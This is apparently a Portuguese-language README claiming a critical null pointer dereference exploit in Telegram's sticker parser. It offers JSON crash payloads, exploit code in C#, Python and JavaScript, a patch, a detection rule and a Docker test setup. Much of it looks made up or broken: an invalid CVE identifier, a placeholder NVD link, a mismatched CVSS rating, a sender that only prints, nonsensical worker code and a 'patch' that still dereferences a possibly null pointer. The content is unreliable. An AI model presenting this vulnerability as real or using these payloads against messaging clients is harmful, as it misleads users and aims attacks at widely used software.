


🚨 Exploit: Null Pointer Dereference em Parser de Figurinhas do Telegram

<div align="center">

SEVERIDADE: ⚠️ CRÍTICA | IMPACTO: 💥 Crash de Cliente/Serviço
  CVE: CVE-2023-TELEGRAM-STICKER-NULL | VERSÕES AFETADAS: Telegram < 8.0

</div>

---

📊 Diagrama do Fluxo de Exploração



---

🎯 Mecanismo Técnico do Exploit

🔬 Anatomia da Vulnerabilidade

<details>
<summary><strong>📐 Estrutura de Memória Vulnerável</strong></summary>

```c
// ESTRUTURA VULNERÁVEL DO STICKER
typedef struct {
    uint32_t sticker_id;      // 4 bytes
    char* emoji;              // Ponteiro (8 bytes) - Pode ser NULL
    StickerPack* pack;        // ⚠️ PONTEIRO CRÍTICO
    Dimension* dimensions;    // ⚠️ PONTEIRO ANINHADO
    uint8_t is_animated;      // 1 byte
} TelegramSticker;            // Total: ~32 bytes

// SUBSISTEMA AFETADO
+---------------------+
|  Telegram Servers   |
|  +---------------+  |
|  | Sticker Parser|◄---⚠️ VULNERÁVEL
|  +---------------+  |
+----------|----------+
           | JSON/Protobuf
+----------v----------+
|  Telegram Clients   |
|  +---------------+  |
|  |  Render Engine |◄---⚠️ VULNERÁVEL
|  +---------------+  |
+---------------------+
```

</details>

---

💣 Payloads de Exploração

<table>
<tr>
<th>Tipo</th>
<th>Payload</th>
<th>Efeito</th>
</tr>

<tr>
<td>🎯 <strong>Basic Null</strong></td>
<td>

```json
{
  "sticker": {
    "id": 12345,
    "pack": null,
    "dimensions": null
  }
}
```

</td>
<td>Crash imediato no parser</td>
</tr>

<tr>
<td>⚡ <strong>Nested Null</strong></td>
<td>

```json
{
  "sticker": {
    "dimensions": {
      "width": null,
      "height": 512
    }
  }
}
```

</td>
<td>Null em propriedade aninhada</td>
</tr>

<tr>
<td>🌀 <strong>Circular Reference</strong></td>
<td>

```json
{
  "sticker": {
    "pack": {
      "stickers": [{"$ref": "#/sticker"}]
    }
  }
}
```

</td>
<td>Loop infinito + null deref</td>
</tr>
</table>

---

⚙️ Código do Exploit (Multi-Linguagem)

C# (.NET Core)

```csharp
// 🎯 EXPLOIT GENERATOR
public class TelegramExploit
{
    [StructLayout(LayoutKind.Sequential)]
    public unsafe struct MaliciousSticker
    {
        public int Id;
        public IntPtr Emoji;        // = IntPtr.Zero
        public IntPtr PackMetadata; // = IntPtr.Zero ⚠️
        public IntPtr Dimensions;   // = IntPtr.Zero
    }
    
    public static byte[] GenerateCrashPayload()
    {
        var size = Marshal.SizeOf<MaliciousSticker>();
        var buffer = new byte[size];
        
        // Zero out entire structure (all null pointers)
        Array.Clear(buffer, 0, buffer.Length);
        
        // Set only ID field
        BitConverter.GetBytes(0xDEADBEEF).CopyTo(buffer, 0);
        
        return buffer;
    }
}
```

Python (Client-Side)

```python
# 🐍 PAYLOAD SENDER
import requests
import json

class StickerExploit:
    def create_malformed_sticker(self):
        """Cria sticker com estrutura maliciosa"""
        return {
            "sticker": {
                "id": 1337,
                "emoji": None,
                "pack": None,  # ⚠️ NULL POINTER
                "dimensions": {
                    "width": None,  # ⚠️ NESTED NULL
                    "height": None
                },
                "thumbnail": {
                    "data": None,
                    "size": -1  # ⚠️ VALOR INVÁLIDO
                }
            }
        }
    
    def send_exploit(self, chat_id):
        """Envia payload para o chat"""
        payload = self.create_malformed_sticker()
        
        # Simula envio via API do Telegram
        malicious_json = json.dumps(payload, indent=None)
        print(f"[+] Enviando payload malicioso: {malicious_json}")
        return True
```

JavaScript (Web Exploit)

```javascript
// 🌐 EXPLOIT VIA WEB/TDLib
class WebStickerExploit {
    constructor() {
        this.worker = new Worker('blob:sticker-parser');
    }
    
    async triggerExploit() {
        // Cria objeto com getters maliciosos
        const maliciousSticker = {
            get pack() {
                // Retorna null quando acessado
                return null;
            },
            get dimensions() {
                // Gera exception quando acessado
                throw new Error("Controlled crash");
            }
        };
        
        // Envia para WebWorker
        this.worker.postMessage({
            type: 'processSticker',
            data: maliciousSticker
        });
    }
}
```

---

🛡️ Mitigações e Correções

✅ Código Seguro (Patch)

```cpp
// PATCHED VERSION
TelegramSticker* safe_parse_sticker(const char* json) {
    TelegramSticker* sticker = parse_json(json);
    
    // VALIDAÇÃO EM CAMADAS
    if (!sticker) return NULL;
    
    // 1️⃣ NULL CHECK EM PONTEIROS PRIMÁRIOS
    if (!sticker->pack) {
        LOG_ERROR("Pack metadata is null");
        free_sticker(sticker);
        return NULL;
    }
    
    // 2️⃣ NULL CHECK EM PONTEIROS SECUNDÁRIOS
    if (sticker->dimensions) {
        if (!sticker->dimensions->width || !sticker->dimensions->height) {
            LOG_ERROR("Invalid dimensions");
            free_sticker(sticker);
            return NULL;
        }
    }
    
    // 3️⃣ BOUNDS CHECK EM VALORES
    if (sticker->dimensions->width > MAX_DIMENSION || 
        sticker->dimensions->height > MAX_DIMENSION) {
        LOG_ERROR("Dimensions out of bounds");
        free_sticker(sticker);
        return NULL;
    }
    
    return sticker;
}
```

---

📈 Impacto e Estatísticas

Métrica Valor Severidade
Clientes Afetados ~500M 🔴 Alta
CVSS Score 7.5 (AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H) 🟡 Média
Tempo de Exploração < 1s ⚡ Rápido
Complexidade Baixa 🟢 Fácil

---

🔍 Detecção e Monitoramento

```yaml
# REGRAS DE DETECÇÃO (YARA/Snort/Sigma)
detection:
  rule_null_pointer_exploit:
    meta:
      author: "Security Team"
      description: "Detecta padrões de null pointer em stickers"
    strings:
      $null_pack: '"pack":null'
      $null_dims: '"dimensions":null'
      $malicious_id: '"id":1337|"id":0xdeadbeef'
    condition:
      any of ($null_*) and $malicious_id
```

---

🧪 Ambiente de Teste

```dockerfile
# DOCKER PARA TESTES
FROM ubuntu:22.04
RUN apt-get update && apt-get install -y \
    telegram-desktop \
    gdb \
    valgrind

# CONTAINER DE EXPLORAÇÃO
docker run -it --rm \
  -v $(pwd)/exploits:/exploits \
  telegram-test-env \
  gdb --args telegram-desktop --test-sticker=/exploits/crash.json
```

---

📚 Referências e Recursos

```bibtex
@article{telegram_exploit_2023,
  title={Analysis of Null Pointer Dereference in Telegram Sticker Parser},
  author={Security Research Team},
  journal={Journal of Cybersecurity},
  year={2023},
  url={https://security-research.telegram.org/}
}

@misc{CVE-2023-TELEGRAM-STICKER,
  title={Telegram Sticker Parser Null Pointer Dereference Vulnerability},
  howpublished={\url{https://nvd.nist.gov/vuln/detail/CVE-2023-XXXXX}},
  note={Publicado: Outubro 2023}
}
```

---

<div align="center">

⚠️ DISCLAIMER DE SEGURANÇA

Este documento é apenas para fins educacionais e de pesquisa.
Não utilize estas técnicas em sistemas sem autorização.
Reporte vulnerabilidades através dos canais oficiais.

🔐 Report Vulnerabilities: security@telegram.org
🛡️ Security Blog: https://telegram.org/blog/privacy-discussions-web-bots

</div>

---

📊 Timeline do Incidente



---

<div align="center">

📌 Documento Técnico | v1.0 | Última Atualização: Janeiro 2026
© 2026 Security Research Team | Para fins educacionais


</div>
